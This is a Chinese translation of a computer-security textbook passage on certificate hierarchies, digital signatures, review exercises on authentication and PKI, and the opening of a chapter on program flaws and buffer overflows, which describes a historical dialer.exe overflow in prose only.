对于这些互动中的每一个，我们都有可以称为“信任阈值”的东西，即我们愿意相信一个未识别个体的程度。这种阈值在商业互动中也存在。当 `Acorn Manufacturing Company` 向 `Big Steel Company` 发送一份订购 10,000 张钢板的订单，要求在一周内发货、十天内付款时，信任无处不在。订单印在 `Acorn` 的表格上，由自称是采购代理的 `Helene Smudge` 签署。`Big Steel` 甚至可能在收到 `Acorn` 的款项前就开始备钢。`Big Steel` 可能会查询 `Acorn` 的信用评级，以决定是否在未先付款的情况下发货。如果存疑，`Big Steel` 可能会致电 `Acorn`，要求与采购部的 `Smudge` 女士通话。但更有可能的是，`Big Steel` 会在不知道 `Smudge` 女士是谁、她是否真的是采购代理、她是否有权承诺该规模的订单、甚至签名是否真的是她签的情况下，实际发货。有时此类交易通过传真进行，因此 `Big Steel` 甚至没有原始签名存档。在这些每天都在发生的案例中，信任基于真实性的外观（如打印的签名表格）、外部信息（如信用报告）和紧迫性（`Acorn` 要求快速发货）。

##### 电子方式建立信任

为了使电子通信成功，我们必须开发类似的方式，让双方在未见面的情况下建立信任。我们个人和商业互动中的共同点是，能够有人或某物为一方或双方的存在和完整性担保。警察、商会或 `Better Business Bureau` 为来电者的真实性担保。当 `Big Steel` 致电找 `Smudge` 女士时，`Acorn` 通过将电话转接给采购部的她，间接为 `Smudge` 女士是其采购代理这一事实担保。从某种意义上说，电话公司通过在电话簿中列出某人，为该方的真实性担保。这种第三方“担保”的概念可以成为商业环境中双方互不相识时信任的基础。

我们需要为数字签名解决的信任问题是公钥的真实性。如果 `Monique` 用她的私钥签署文件，任何人都可以用她的公钥解密签名，以验证只有 `Monique` 才能签署该文件。唯一的问题是能否以一种我们可以充分信任的方式获取 `Monique` 的公钥，即该密钥真正属于她，而不是由冒充 `Monique` 的恶意行为者散布的。在下一节中，我们将介绍一种将公钥与身份可靠绑定的方法。

##### 基于共同受尊敬个人的信任

一家大公司可能有多个事业部，每个事业部可能有多个部门，每个部门可能有多个项目，每个项目可能有多个任务组（名称、层级数量和层级完整程度各异）。最高管理者可能不认识公司每个员工的名字或面孔，但任务组组长认识任务组所有成员，项目负责人认识所有任务组组长，依此类推。这种层级结构可以成为整个组织信任的基础。

要了解其运作方式，假设两个人见面：`Ann` 和 `Andrew`。`Andrew` 说他在同一家公司工作。`Ann` 想要独立验证他是否属实。她发现 `Bill` 和 `Betty` 是同一个项目（由 `Camilla` 领导）的两个任务组组长；`Ann` 为 `Bill` 工作，`Andrew` 为 `Betty` 工作。（组织关系如图 2-28 所示。）这些事实为 `Ann` 和 `Andrew` 相互信任对方身份提供了依据。验证链可能如下：

- `Ann` 询问 `Bill` `Andrew` 是谁。
- `Bill` 要么直接询问 `Betty`（如果他认识她），要么询问 `Camilla`。
- （如果被询问，`Camilla` 再询问 `Betty`。）
- `Betty` 向 `Camilla` 或 `Bill` 回复 `Andrew` 为她工作。
- （如果 `Camilla` 参与了，她会告诉 `Bill`。）
- `Bill` 告诉 `Ann`。


**图 2-28** 信任关系

如果 `Andrew` 在不同的任务组，可能需要在组织树中向上查找更高层级，才能找到共同点。

我们可以使用类似的过程进行加密密钥交换，如图 2-29 所示。如果 Andrew 和 Ann 想要通信，Andrew 可以将他的公钥给 Betty，Betty 传给 Camilla，再传给 Bill，或者直接给 Bill，由 Bill 交给 Ann。但在现实生活中，这并非完全按此顺序运作。密钥通常会附带一张说明其来自 Andrew 的便条，形式从一张黄纸条到一份 947 号身份声明表格不等。如果使用 947 号表格，那么 Betty 还必须附上一份 632a 号身份传递表格，Camilla 再附一份 632a，Bill 附上最后一份，如图 2-29 所示。这一连串 632a 表格的实质意思是：“我是 Betty，我亲自从我认识的 Andrew 那里收到此密钥及附带的身份声明”，“我是 Camilla，我亲自从我认识的 Betty 那里收到此密钥、附带的身份声明和附带的身份传递”，依此类推。当 Ann 收到密钥时，她可以审查这条证据链，并有合理把握地得出结论：该密钥确实来自 Andrew。该协议是一种获取经过认证的公钥的方式，即将密钥与可靠身份绑定。


**图 2-29** 证书中的密钥关系

该模型在公司内部效果很好，因为任意两名员工之间总有共同的知情人，即使两名员工在不同部门，唯一的共同人也可能是总裁。然而，如果每当 Ann 和 Andrew 想要通信时，Ann、Bill、Camilla、Betty 和 Andrew 都必须在场，流程就会陷入停滞。如果 Betty 出差在外或 Bill 病假在家，协议就会受阻。如果总裁因为每天都忙于处理 632a 表格而无法完成任何实质性工作，该模型也无法良好运行。

为解决第一个问题，Andrew 可以请求获取从总裁一直到他的完整 632a 表格链。然后，Andrew 可以将这套完整副本交给公司里任何想要他密钥的人。Andrew 不再是从底层向上追溯到共同点，而是从顶层开始记录他的完整链。他可以在上级有空时随时获取这些签名，因此当他想分发经过认证的公钥时，上级不必在场。

我们可以通过反向流程来解决第二个问题。我们不再从底层（任务成员）开始向树顶（总裁）推进，而是从顶层开始。这样，Andrew 就拥有了一个可供未来无限次使用的预认证公钥。假设我们这家假设公司的扩展结构（显示总裁和其他层级）如图 2-30 所示。


**图 2-30** 信任委派

总裁为每位部门经理创建一封信，内容为：“我是总裁 Edward，我证明部门经理 Diana 的身份，我本人认识她，且我信任 Diana 去证明其下属的身份。”每位部门经理也照此办理，在其创建的每封信中复附总裁的信，以此类推。Andrew 收到一包信件，从总裁一直到他的任务组组长，每封信都通过姓名与下一封相连。如果公司每位员工都收到这样一包信件，任意两名想要交换认证密钥的员工只需比对彼此的信件包；两个包至少都有 Edward，或许还有一些 Edward 以下的经理，而在某个节点会出现分歧。例如，Andrew 和 Ann 可以比对他们的链条，确定他们在 Camilla 处之前是相同的，然后只需从 Camilla 向下追溯。Andrew 知道从 Edward 到 Camilla 的链条是真实的，因为它与他的链条完全一致，Ann 也知道这一点。双方都知道链条其余部分是准确的，因为它遵循一条不间断的姓名和签名链。

#### 证书：可信的身份和公钥

你可能会得出结论：此过程虽可行，但过于繁琐，难以在现实生活中应用；也许你已推断我们正在构建一个用于计算机的系统。该协议用电子方式表示比用纸张容易得多。纸质文件需要防范伪造，以防止链条的某部分被替换，并确保底部的公钥与链条绑定。利用数字签名和哈希函数，整个过程都可以用电子方式完成。Kohnfelder [KOH78] 似乎是使用带有认证者链的电子证书这一概念的首创者；Merkle 的论文 [MER80] 扩展了这一概念。

一个公钥和用户的身份绑定在一起形成**证书**，然后由被称为**证书颁发机构**的人签名，证明该绑定的准确性。在我们的例子中，公司可能会按以下方式建立证书体系。首先，Edward 选择一对公钥，将公钥部分发布在公司所有人都能检索到的地方，并保留私钥部分。然后，每位部门经理（如 Diana）创建自己的公钥对，将公钥连同身份信息放入一条消息中，并安全地传递给 Edward。Edward 通过创建该消息的哈希值，再用他的私钥加密该哈希值来对其签名。通过签名该消息，Edward 确认消息中的公钥（Diana 的）和身份（也是 Diana 的）属于同一人。这条消息称为 Diana 的证书。

Diana 所有的部门经理创建包含其公钥的消息，Diana 对每条消息进行哈希和签名，并返回给他们。她还在每条消息中附上一份她从 Edward 那里收到的证书副本。这样，任何人都可以通过从 Edward 广为人知的公钥开始，解密 Diana 的证书以获取她的公钥（和身份），再用 Diana 的公钥解密经理的证书，来验证经理的证书。图 2-31 展示了如何为 Diana 和她的一个经理 Delwyn 创建证书。此过程沿着层级一直延续到 Ann 和 Andrew。如图 2-32 所示，Andrew 的证书实际上是他的个人证书与所有在他之上直达总裁的人员证书的组合。


**图 2-31** 创建证书


**图 2-32** 证书层级

##### 无单一层级的证书签名

在我们的例子中，证书是基于管理结构颁发的。但我们并不需要这种结构，也不必遵循如此复杂的流程来使用证书签名进行认证。任何被认为可接受的权威机构都可以签署证书。例如，如果你想确定某人是否获得了大学学位，你不会联系校长或董事会主席，而是会去教务处或注册办公室。要核实某人的就业情况，你可能会询问人事办公室或人力资源总监。而要查证某人是否住在特定地址，你可能会咨询公共记录办公室。

##### 证书层级与数字签名

有时，会指定特定人员来证明文档或个人的真实性或有效性。例如，公证人证明文档上（手写）签名的有效性。一些公司设有安全官，负责核实员工是否拥有适当的安全许可以阅读文档或参加会议。许多公司在每个站点或每个工厂位置都设有独立的人事办公室；人事官员为该站点员工的雇佣状态担保。这些官员或办公室主任中的任何一个都可以为其管辖范围内的人员可信地签署证书。社会中存在自然层级，这些相同的层级可用于验证证书。

层级结构的唯一问题在于对顶层信任的需求。整个真实性链是安全的，因为每个证书都包含解密下一个证书所需的密钥，除了顶层证书。在公司内部，员工自然信任顶层人员。但如果证书要在电子商务中广泛使用，人们必须能够跨公司、组织和国家安全地交换证书。


互联网是一个大型网络联盟，用于人际、公司间、组织间和国际间（以及公司内、组织内和国家内）通信。它不属于任何政府，也不是私有公司。它由一个称为互联网协会的董事会管理。互联网协会拥有权力，仅因为其成员——构成互联网的政府和公司——同意共同合作。但互联网实际上没有“顶层”。不同的公司，如 `C&W HKT`、`SecureNet`、`VeriSign`、`Baltimore Technologies`、`Deutsche Telecom`、`Societá Interbancaria per l’Automatzione di Milano`、`Entrust` 和 `Certiposte`，都是根认证机构，这意味着每一个都是签署证书的最高权威。因此，不是只有一个根和一个顶层，而是有许多根，主要按国家边界构建。

## 分发密钥和证书

本章前面介绍了几种密钥分发方法，范围从直接交换到通过中央分发机构分发，再到经过认证的预先分发。但无论采用何种密钥分发方法，每种方法都有其优缺点。关于任何密钥分发协议，需牢记以下几点：

*   **有哪些操作限制？** 例如，该协议是否需要持续可用的设施，如密钥分发中心（`KDC`）？
*   **有哪些信任要求？** 谁和哪些实体必须被信任为正常行事？
*   **防故障保护如何？** 外部人员能否冒充协议中的任何实体并破坏安全？协议的任何一方能否在不被发现的情况下作弊？
*   **协议效率如何？** 一个需要多个步骤来建立将被多次使用的加密密钥的协议是一回事；为一次性使用而经历多个耗时步骤则是另一回事。
*   **协议实现难度如何？** 请注意，计算机实现的复杂性可能与手动使用不同。

## 数字签名——所有组件

将这些组件组合在一起，我们现在可以概述一个完整的数字签名方案。假设用户 `S` 想要对一个文件（或其他数据对象）应用数字签名，满足数字签名的四个目标：不可伪造、真实性、不可篡改和不可重用。

**数字签名** 由以下部分组成：

*   一个文件
*   证明文件未被篡改
*   签名者身份指示
*   验证签名真实性，即该签名属于签名者
*   签名与文件的关联

有了这五个组件，我们就可以构建一个数字签名。

我们从文件开始。如果我们使用文件的安全哈希码来计算消息摘要，并将该哈希码包含在签名中，该代码就能证明文件未被更改。签名文件的接收者可以重新计算哈希函数，如果哈希值匹配，就可以合理地相信接收到的文件与签名的文件相同。到目前为止，我们的数字签名如图 2-33 所示。


**图 2-33** 用于检测更改的哈希码

接下来，我们应用签名者的私有加密密钥来加密消息摘要。因为只有签名者知道该密钥，所以签名者是唯一能够应用它的人。现在签名对象如图 2-34 所示。


**图 2-34** 用于显示真实性的加密

唯一需要添加的另一部分是签名者身份的指示，以便接收者知道使用哪个公钥来解锁加密，如图 2-35 所示。签名者的身份必须在加密之外，因为如果在里面，就无法提取身份。


**图 2-35** 签名者指示

还有两个额外的润色步骤。首先，根据文件大小，该对象可能很大，而非对称加密速度慢，不适合加密大文件。然而，`S` 的认证加密只需覆盖安全哈希码，而不必覆盖整个文件本身。如果文件被修改，它将不再匹配哈希码，因此接收者会知道不应信任该对象来自 `S` 且是真实的。如果哈希码被分离并附加到不同的文件上，在那里也不会匹配。因此，为了效率，我们只需用 `S` 的私钥加密哈希值，如图 2-36 所示。


**图 2-36** 覆盖哈希值的非对称加密

其次，对象的数据部分（即文件）暴露给任何人阅读。如果 `S` 想要机密性，即只有特定接收者能查看文件内容，`S` 可以选择一个对称加密密钥，加密文件，并将该密钥存储在用户 `U` 的非对称公开加密密钥下。这一最终添加如图 2-37 所示。


**图 2-37** 同时受完整性和机密性保护的数字签名对象

总之，数字签名可以指示文件的真实性，特别是一段代码。当你尝试安装一段签名代码时，操作系统将检查证书和文件，如果证书和哈希不可接受，会通知你。数字签名结合强哈希函数和对称加密，是确保文件正是发布者存供下载的内容的有效方式。

本节关于密码学工具的描述到此结束。我们在表 2-15 中总结了这些工具。在本节中，我们介绍了稍后在本书中将调用的重要组件。


**表 2-15** 源自密码学的工具

本章的目的不是培养一批新的密码学家或密码分析学家；那将需要远超本书容量的材料。相反，我们希望你了解和理解密码学的基本概念，以便在后续章节中，你能体会到例如保护无线网络信号或在浏览器用户和网站之间建立受保护通信的难度、优势和劣势。

在下一章中，我们将把本章的三个工具用于解决程序和编程中的安全问题。

### 2.4 练习

#### 1. 访问控制机制分析

描述以下四种访问控制机制，从以下四个维度进行分析：

(a) 执行期间确定授权访问的难易度

(b) 为新主体添加访问权限的难易度

(c) 删除主体访问权限的难易度

(d) 创建新对象并使所有主体默认拥有访问权限的难易度

*   **按主体访问控制列表**（即每个主体有一个列表，列出该主体可访问的所有对象）
*   **按对象访问控制列表**（即每个对象有一个列表，列出所有有权访问该对象的主体）
*   **访问控制矩阵**
*   **能力**

#### 2. 按主体访问控制列表中的对象删除问题

假设使用按主体访问控制列表。在该系统中删除对象很不方便，因为必须修改所有曾拥有该对象访问权限的主体的控制列表。请提出一种替代的、开销更小的处理删除的方法。

#### 3. 访问控制矩阵与对象完整性的关系

文件访问控制主要涉及安全性的保密性维度。访问控制矩阵与受访问控制的对象的**完整性**之间有什么关系？

#### 4. 能力传递场景

基于能力的保护系统的一个特性是一个进程可以将能力的副本传递给另一个进程。描述一个进程应该能够将能力传递给另一个进程的情况。

#### 5. 高效的按用户保护方案设计

建议一种维护按用户保护方案的高效机制。即系统为每个用户维护一个目录，该目录列出该用户被允许访问的所有对象。你的设计应满足以下系统需求：

*   1000 个用户，其中任何时候不超过 20 个活跃
*   每个用户平均有 200 个允许访问的对象
*   系统中总共有 50,000 个对象

#### 6. 密码猜测攻击时长计算

##### (a) 三位大写字母密码破解时间

如果密码由三个大写字母组成，假设测试单个密码需要 5 秒，确定特定密码需要多长时间？如果测试需要 0.001 秒呢？

##### (b) “安全”起始时间的论证

为一个特定的时间量作为“安全”的起始点进行论证。即假设攻击者计划使用暴力攻击来确定密码。对于什么值的 *x*（尝试尽可能多的密码所需的总时间），攻击者会发现这种攻击时间过长而不可行？

##### (c) 安全密码长度估算

如果“不安全”和“安全”的分界线是 *x* 时间量，安全密码需要多长？陈述并证明你关于密码字符集和测试单个密码所需时间的假设。

#### 7. 相互怀疑双方的认证协议设计

设计一种协议，使两个相互怀疑的双方能够相互认证。你的协议应在双方首次尝试相互认证时可用。

#### 8. 生物识别认证的顾虑与对策

列出人们可能不愿使用生物识别进行认证的三个原因。你能想出应对这些异议的方法吗？

#### 9. 假阴性比假阳性更严重的场景

误报率和漏报率是可以调整的，且通常是互补的：降低一个会升高另一个。列出两种假阴性比假阳性严重得多的情况。

#### 10. 生物识别系统中人工复核的安全优势

在典型办公室中，生物识别认证可能用于仅控制员工和登记访客的访问。我们知道系统会有一些假阴性，即一些员工被错误地拒绝访问，因此我们需要人工复核，即有人可以检查员工并在认证失败的情况下允许其访问。因此，我们需要一名人工守卫在门口处理问题，以及认证设备；如果没有生物识别，我们只需要守卫。因此，无论有无生物识别，人员数量相同，外加获取和维护生物识别系统的额外成本。解释这种情况下证明额外开支合理的安全优势。

#### 11. “学习型”认证方案设计

概述一种“学习型”认证方案的设计。该认证方案将从关于用户的某些基本信息开始，如姓名和密码。随着计算机系统使用的继续，认证系统将收集诸如常用编程语言、计算会话的日期、时间和长度、独特资源的使用等信息。随着系统了解更多关于用户的信息，认证挑战将变得更加个性化。

*   你的设计应包括系统可以收集的关于用户的许多信息片段的列表。允许系统向已认证的用户询问某些额外信息（如喜爱的书籍），以用于后续的挑战。
*   你的设计还应考虑呈现和验证这些挑战的问题：意图用户是回答判断题还是选择题？系统是否解释自然语言散文？

#### 12. 个人电脑上的密码存储方式

密码是如何存储在你的个人电脑上的？

#### 13. 弱但易用密码足够的场景

描述一种弱但易用的密码可能就足够的情况。

#### 14. 信用卡电话认证问题设计

列出你的信用卡公司可用于通过电话认证你的三个认证问题（但不包括答案）。你的问题应该是冒名顶替者不易获取答案的。你提供正确答案有多难（例如，你必须查阅某些资料或进行快速算术计算）？

#### 15. 忘记密码时的两种找回方式对比

如果你忘记了网站的密码并点击 `[Forgot my password]`，有时公司会通过电子邮件发送新密码，有时会发送旧密码。从网站所有者漏洞的角度比较这两种情况。

#### 16. 认证攻击的方法-机会-动机范式

击败认证遵循第 1 章中描述的方法-机会-动机范式。讨论这三个因素如何适用于对认证的攻击。

#### 17. 长且不可预测数字的来源建议

建议一种非常长的不可预测数字的来源。你的来源必须是发送方和接收方都能轻松访问，但对外人不明显，且不直接从发送方传输给接收方的东西。

#### 18. 美国政府选定密码系统用于商业用途的风险

让美国政府选择一种密码系统供广泛商业使用（无论在美国国内还是国外）有什么风险？美国以外的用户如何克服其中一些或全部风险？

#### 19. AES 使用寿命预测

如果 DES 的使用寿命约为 20 年（1977–1999），你预测 AES 的使用寿命有多长？证明你的答案。

#### 20. 人为因素导致的安全妥协示例

人被称为任何安全系统中最薄弱的环节。为以下每种情况给出一个例子：

*   (a) 人为失误可能导致加密数据泄露的情况
*   (b) 人为失误可能导致标识和认证泄露的情况
*   (c) 人为失误可能导致访问控制泄露的情况

#### 21. 定期更换加密密钥与密码的原因

为什么密码学家建议不时更换加密密钥？这是安全专家建议不时更换密码的同一个原因吗？如何确定更换密钥或密码的频率？

#### 22. 哈希碰撞发生的原因

解释为什么会发生哈希碰撞。即为什么必须总存在两个不同的明文具有相同的哈希值？

#### 23. 哈希函数的什么属性使碰撞非安全问题

哈希函数的什么属性意味着碰撞不是安全问题？即为什么攻击者不能利用碰撞将底层明文更改为另一种与原始明文哈希值碰撞的形式？

#### 24. PKI 是否执行加密？

PKI 是否执行加密？解释你的答案。

#### 25. PKI 使用对称还是非对称加密？

PKI 使用对称还是非对称加密？解释你的答案。

#### 26. PKI 是否应在防火墙上支持？

PKI 是否应在防火墙上支持（意味着证书将存储在防火墙上，防火墙将按需分发证书）？解释你的答案。

#### 27. 为什么 PKI 需要一种取消或使证书失效的手段？为什么 PKI 在证书失效后仅停止分发该证书是不够的？

#### 28. 有人认为 PKI 的证书颁发机构应该是政府，但也有人认为证书颁发机构应该是私营实体，例如银行、公司或学校。这两种方法各有什么优缺点？

#### 29. 如果你居住在国家 A，并收到一张由国家 B 的政府证书颁发机构签名的证书，什么条件会让你信任该签名是真实的？

#### 30. 证书包含一个身份、一个公钥，以及证明该公钥属于该身份的签名。可能存在的其他字段包括该身份所属的组织（例如大学、公司或政府），以及可能的子组织（学院、部门、项目、分支机构、办公室）。这些其他字段有什么安全目的（如果有的话）？请解释你的答案。

## 3. 程序与编程

---

本章内容：

- 编程疏忽：缓冲区溢出、差一错误、不完全中介、检查时刻到使用时刻错误
- 恶意代码：病毒、蠕虫、特洛伊木马
- 开发人员对策：程序开发技术、安全原则
- 无效的对策

---

程序是简单的事物，但它们能发挥强大的威力。请花一分钟思考一下：程序只是 `0` 和 `1` 的字符串，表示基本的机器命令，如移动一个数据项、比较两个数据项或跳转到不同的命令。这些原始的机器命令实现了高级编程语言结构，如条件判断、循环、情况选择、算术和字符串操作。而这些编程语言结构为我们带来了起搏器功能、卫星控制、智能家居技术、交通管理和数码摄影，更不用说流媒体视频和社交网络了。Intel 32 位和 64 位指令集拥有约 30 条基本原语（如移动、比较、跳转、增量和减量、逻辑运算、算术运算、触发 I/O、产生和服务中断、压栈、出栈、调用和返回）以及专用指令，以提高浮点运算或密码学等计算的性能。这些寥寥数条机器命令足以实现我们今天所知的海量程序。

大多数程序是用 `Java`、`C`、`C++`、`Perl` 或 `Python` 等高级语言编写的；程序员通常使用代码库，利用他人编写的代码片段来构建复杂的程序。但大多数人不是程序员；相反，他们使用现成的应用程序进行文字处理、网页浏览、图形设计、会计等工作，而无需了解底层程序代码的任何知识。人们不指望需要了解发电厂如何运作才能打开电灯。但如果电灯不亮，问题可能出在从发电厂到灯泡的任何一个环节，用户突然需要从一端追踪到另一端的潜在问题。虽然用户不需要成为物理学家或电气工程师，但对电力的大致了解有助于确定如何解决问题，或者至少如何隔离用户可控范围内的故障（烧坏的灯泡、未插好的台灯）。

在本章中，我们将描述程序和编程中的安全问题。正如电灯的例子，问题可能存在于机器硬件和用户界面之间的任何位置。两个或多个问题可能以负面方式结合，某些问题可能是间歇性的，或仅在存在其他条件时发生，问题的影响范围可能从令人恼火（甚至可能难以察觉）到灾难性的后果。

---

**安全故障可能源于故意或非恶意原因；两者都可能造成危害。**

---

在第 1 章中，我们介绍了动机的概念，指出一些安全问题源于非恶意的疏忽或失误，但也有一些是故意的。恶意攻击者可以利用非恶意缺陷造成真实伤害。因此，我们现在研究几种常见的程序缺陷，以展示编程期间的简单错误如何导致执行期间的大规模问题。在此过程中，我们将描述由程序缺陷引起的真实攻击。（我们使用术语*缺陷*，因为许多安全专业人员使用该术语，或使用更具唤起力的术语 *bug*。然而，正如你在侧边栏 3-1 中所见，用于描述程序问题的语言并不统一。）

### 侧边栏 3-1 （缺乏）质量的术语

多亏了 Grace Murray Hopper 上将，我们随意地将软件问题称为“Bug”。[KID98] 但该术语根据上下文可能有不同含义：对需求的误解、代码片段中的语法错误，或（尚未查明的）系统崩溃原因。电子电气工程师学会 (IEEE) 建议使用标准术语（在 IEEE 标准 729 中）来描述软件产品中的 Bug [IEE83]。

当人类在执行某项软件活动时犯了一个称为 `error` 的**错误**，该错误可能导致一个 `fault`，即计算机程序、设计或文档中的一个不正确的步骤、命令、过程或数据定义。例如，设计人员可能误解需求，创建出一个与需求分析师和用户的实际意图不符的设计。这个设计缺陷是错误的一种编码，它可能导致其他缺陷，如不正确的代码和用户手册中的不正确描述。因此，单个错误可能产生多个缺陷，且缺陷可能存在于任何开发或维护产品中。

`failure` **故障**是指偏离系统要求的行为。它可以在系统交付前或交付后、测试期间、运行和维护期间被发现。由于需求文档可能包含缺陷，故障表明系统未按要求执行，即使它可能按规格执行。

因此，缺陷是开发人员眼中的系统内部视图，而故障是外部视图：用户看到的问题。每个故障至少有一个缺陷作为其根本原因。但并非每个缺陷都对应一个故障；例如，如果有缺陷的代码从未被执行，或特定状态从未被进入，该缺陷永远不会导致代码故障。

虽然软件工程师通常仔细区分缺陷和故障，但安全工程师很少这样做。相反，安全工程师使用 `flaw` **瑕疵**来描述缺陷和故障两者。在本书中，我们使用安全术语；我们尝试提供足够的上下文，以便你理解我们指的是缺陷还是故障。

---

### 3.1 无意（非恶意）编程疏忽

程序及其计算机代码是计算的基础。没有程序指导其活动，计算机就毫无用处。由于计算机早期为通用用途提供的程序很少，早期计算机用户也必须是程序员——他们编写代码然后运行它以完成某项任务。今天的计算机用户有时会编写自己的代码，但更多时候他们购买现成的程序；他们甚至购买或共享代码组件，然后修改它们供自己使用。所有用户都乐于随时运行程序：电子表格、音乐播放器、文字处理器、浏览器、电子邮件处理程序、游戏、模拟器等。确实，代码以无数种方式启动，从打开手机到按下咖啡机或微波炉上的“开始”键。但随着程序变得更加繁多和复杂，用户越来越频繁地无法知道程序到底在做什么，也不清楚它是如何做的。

更重要的是，用户很少知道他们正在使用的程序产生的结果是否正确。如果程序突然停止、文档中的文本消失或音乐突然跳过段落，代码可能运行不正常。（有时这些中断是有意为之，例如 CD 播放器因光盘损坏而跳过，或医疗设备程序为防止伤害而停止。）但如果电子表格产生的结果偏差很小，或自动绘图包未能精确对齐对象，你可能不会注意到——或者你注意到了，却责怪自己而不是程序导致了这种差异。

这些可见和不可见的缺陷，都有几方面的原因值得关注。正如我们所知，程序是由会犯错的人类编写的，程序缺陷的严重程度可以从微不足道到灾难性后果不等。尽管经过了大量测试，缺陷仍可能定期或偶发性地出现，这或许取决于许多未知且未预料到的条件。

程序缺陷可能有两种安全含义：它们可能导致完整性问题，进而产生有害的输出或动作；同时也为恶意行为者的利用提供了机会。我们依次讨论这两种情况。


* 程序缺陷可能是影响程序结果正确性的故障——即故障可能导致失效。错误的操作属于完整性失效。正如我们在第 1 章中所见，完整性是 C-I-A 三要素中三个基本安全属性之一。完整性不仅涉及正确性，还涉及准确性、精确性和一致性。有缺陷的程序还可能不当地修改先前正确的数据，有时通过覆盖或删除原始数据来实现。即使缺陷并非恶意植入，有缺陷程序的后果也可能导致严重危害。
* 另一方面，即使缺陷源于良性原因，也可能被恶意人员利用。如果攻击者发现了缺陷并能利用它来操纵程序行为，一个简单且非恶意的缺陷就可能成为恶意攻击的一部分。

***

**良性缺陷可以——而且经常——被利用以造成恶意影响。**

***

因此，从这两方面来看，程序正确性既是一个安全问题，也是一个普遍的质量问题。在本章中，我们将探讨几个具有安全含义的编程缺陷。我们还将展示在程序设计、开发和部署期间可以采取哪些活动来提高程序安全性。

## 缓冲区溢出

我们从一个特别著名的缺陷开始，即缓冲区溢出。虽然基本问题很容易描述，但定位和预防此类困难却颇具挑战性。此外，溢出的影响可能很微妙，且与底层的疏忽极不成比例。这种超大影响部分归因于人们利用溢出实现的攻击。事实上，缓冲区溢出往往是发动更具破坏性攻击的初始立足点。大多数缓冲区溢出是简单的编程疏忽，但它们可被用于恶意目的。关于寻找缓冲区溢出的故事，请参见侧边栏 3-2。

***

**缓冲区溢出往往源于无心的程序员疏忽，或未能为过量数据建立文档和进行检查。**

***

这并非第一个缓冲区溢出，在随后的时间里——将近二十年——发现了更多的缓冲区溢出。然而，这个例子清楚地展示了攻击者的思维。在本案中，David 试图提高安全性——他当时碰巧为本书作者之一工作——但攻击者为击败安全性而工作，原因如第 1 章所列。我们现在调查缓冲区溢出攻击的来源、后果及一些对策。

### 缓冲区溢出剖析

字符串超出其分配的空间，或多塞了一个元素进数组；你会问这有什么大不了？要理解为什么缓冲区溢出是一个主要安全问题，你需要了解操作系统如何存储代码和数据。

如上所述，缓冲区溢出几乎与带有数组的高级编程语言一样悠久。早期的溢出只是给程序员和用户带来轻微烦恼，导致错误甚至系统崩溃。然而最近，攻击者已将它们作为载体，先导致系统崩溃，再导致具有严重安全含义的可控故障。基于缓冲区溢出的大量安全漏洞表明，开发人员现在必须更加关注那些以前被认为只是轻微烦恼的问题。

***

#### 侧边栏 3-2 我的电话号码是 5656 4545 7890 1234 2929 2929 2929……

1999 年，安全分析师 David Litchfield [LIT99] 对缓冲区溢出产生了浓厚兴趣。他既拥有对哪类程序会包含溢出的敏锐直觉，又有耐心去勤奋搜寻。他偶然发现了 Microsoft 拨号程序 `dialer.exe`。

拨号程序是一个用于拨打电话的程序。在手机、WiFi、宽带和 DSL 普及之前，计算机配备调制解调器，可借此连接到固定电话网络；用户会拨打互联网服务提供商的电话，通过标准语音电话线建立连接。许多人共用一条线路进行语音和计算机（数据）通信。你可以查找联系人的电话号码，拿起电话，拨打号码并交谈；但计算机的调制解调器也能拨打同一线路，因此你可以从电子联系人列表将号码输入调制解调器，让调制解调器拨打你的号码，并在对方接听时拿起听筒。因此，Microsoft 提供了拨号程序，一个用调制解调器拨号的简单实用程序。（截至 2014 年，`dialer.exe` 仍是 Windows 10 的一部分，尽管此处描述的缓冲区溢出在 David 报告后不久即已修补。）

David 推断，鉴于国家差异、外线接入代码和远程信号（例如输入分机号），拨号程序必须接受不同长度的电话号码。但他也怀疑会有上限。于是他用一个 20 位的电话号码测试 `dialer.exe`，一切正常。他尝试 25 位和 50 位，程序仍正常。当他尝试 100 位电话号码时，程序崩溃了。程序员大概做出了一个未记录且未测试的决定：没人会尝试拨打 100 位电话号码……除了 David。

找到崩溃点后，David 开始了他工作中有趣的部分：使程序崩溃证明了存在故障，但利用该缺陷则能说明故障有多严重。通过更多实验，David 发现待拨号码被写入了栈，即存储嵌套程序调用的参数和返回地址的数据结构。操作系统将 `dialer.exe` 程序视为一个程序调用，因此通过控制 `dialer.exe` 覆盖的内容，David 可以将执行重定向到他想要的任何位置，执行任何他想要的指令。他利用漏洞的完整细节见 [LIT99]。

***

### 内存分配

内存是一种有限但灵活的资源；任何内存位置都可以存放任何代码或数据片段。为了使计算机内存管理高效，操作系统将一个数据元素紧挨着另一个数据元素存放，而不考虑数据类型、大小、内容或用途。^(1) 用户和程序员很少知道，更不需要知道代码或数据项究竟占据哪个确切的内存位置。

#### 缓冲区溢出基础

> ^(1) 某些操作系统确实将可执行代码与不可执行数据分离，某些硬件也能为包含代码的内存地址提供不同于数据的保护。然而遗憾的是，由于包括简单设计和性能在内的原因，大多数操作系统和硬件并未实施这种分离。本章忽略这些极少数例外，因为缓冲区溢出的安全问题甚至适用于受约束更严格的系统。设计人员和程序员需要了解缓冲区溢出，因为为某一环境设计的程序有时会被移植到另一个保护较弱的环境中。

计算机使用一个称为 `program counter`（程序计数器）的指针或寄存器来指示下一条指令。只要程序流程是顺序的，硬件就会在执行当前指令的过程中将 `program counter` 中的值增加，使其指向当前指令之后的位置。条件指令（如 `IF()`）、分支指令（如循环 `WHILE`、`FOR`）以及无条件转移（如 `GOTO` 或 `CALL`）会改变执行流程，导致硬件将新的目标地址放入 `program counter`。修改 `program counter` 会使执行从循环底部转移回顶部以进行下一次迭代。硬件只是获取 `program counter` 所指地址处的字节（或字节序列）并将其作为指令执行。

指令和数据都是二进制串；只有使用上下文才能说明某个字节（例如 `0x41`）代表字母 A、数字 65，还是将寄存器 1 的内容移至栈指针的指令。如果你碰巧将数据串“A”放在了执行路径上，它将被当作指令执行。在图 3-1 中，我们展示了内存内容的典型排列，包括代码、局部数据、堆（动态创建数据的存储区）和栈（子任务调用与返回数据的存储区）。正如你所见，指令从内存底部（低地址）向上移动；如果不加限制，执行将穿过局部数据区进入堆和栈。当然，执行通常停留在分配给程序代码的区域内。


**图 3-1** 典型内存组织

并非所有二进制数据项都代表有效指令。有些不对应任何已定义的操作，例如，在指令均为 `0x01` 到 `0x6f` 之间数值的机器上，操作 `0x78` 就无对应定义。其他无效形式试图使用不存在的硬件特性，例如在仅有八个硬件寄存器的机器上引用寄存器 9。

